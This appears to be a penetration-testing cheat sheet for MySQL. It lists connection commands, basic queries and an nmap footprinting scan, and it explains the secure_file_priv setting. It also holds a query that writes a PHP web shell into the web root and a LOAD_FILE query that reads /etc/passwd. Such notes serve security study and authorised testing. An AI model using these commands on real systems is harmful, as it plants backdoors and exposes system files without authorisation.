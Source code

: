 ## delete


# MySQL
## Interaction
```bash
$ mysql -u root -h <IP>
$ mysql -u root -pP4SSw0rd -h <IP> -P 3306
```
                      
| Command                                            | Description                                             |
|----------------------------------------------------|---------------------------------------------------------|
| show databases;                                    | Show all databases.                                     |
| use <database>;                                    | Select one of the existing databases.                   |
| show tables;                                       | Show all available tables in the selected database.     |
| show columns from <table>;                         | Show all columns in the selected database.              |
| select * from <table>;                             | Show everything in the desired table.                   |
| select * from <table> where <column> = "<string>"; | Search for the needed string in the desired table.      |


## Footprinting
```bash
$ sudo nmap <IP> -sV -sC -p3306 --script mysql*
```

## Write Local File
```sql
mysql> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';

Query OK, 1 row affected (0.001 sec)
```

In MySQL, a global system variable secure_file_priv limits the effect of data import and export operations, such as those performed by the LOAD DATA and SELECT … INTO OUTFILE statements and the LOAD_FILE() function. These operations are permitted only to users who have the FILE privilege.

secure_file_priv may be set as follows:

- If empty, the variable has no effect, which is not a secure setting.
- If set to the name of a directory, the server limits import and export operations to work only with files in that directory. The directory must exist; the server does not create it.
- If set to NULL, the server disables import and export operations.

In the following example, we can see the secure_file_priv variable is empty, which means we can read and write data using MySQL:

## Read Local Files
```sql
mysql> select LOAD_FILE("/etc/passwd");
```
